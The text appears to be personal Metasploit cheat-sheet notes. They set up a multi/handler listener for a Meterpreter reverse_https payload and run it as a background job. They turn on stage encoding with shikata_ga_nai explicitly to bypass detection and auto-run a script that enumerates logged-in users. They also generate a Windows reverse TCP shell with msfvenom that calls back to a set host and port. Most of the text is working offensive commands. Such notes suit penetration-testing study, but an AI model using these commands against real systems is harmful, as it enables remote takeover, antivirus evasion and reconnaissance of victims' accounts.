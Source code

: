 ### multi handler
multi/handler, works for all single and multi-stage payloads.
specify the incoming payload type first

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
show options
set lhost
set lport
exploit

//run backgroud
exploit -j
jobs 
// 查看 job
jobs -i
kill 0 
```

advanced feaatures and transports

```
show advanced

//stageencoding,  encode second stage and bypass detection
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai

//autoreatically enumerate logged-in users when meterpreter connect
set AutoRunScript windows/gather/enum_logged_on_users
```

### msfvenom
client-side attacks
https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
```
msfvenom -l formats
search flash
```

* generate shell

```
use payload/windows/shell_reverse_tcp
set LPORT 5555
set LHOST 192.168.0.2
generate

generate -h

#windows
use payload/windows/exec
use payload/cmd/windows/generic
```
* executable payloads
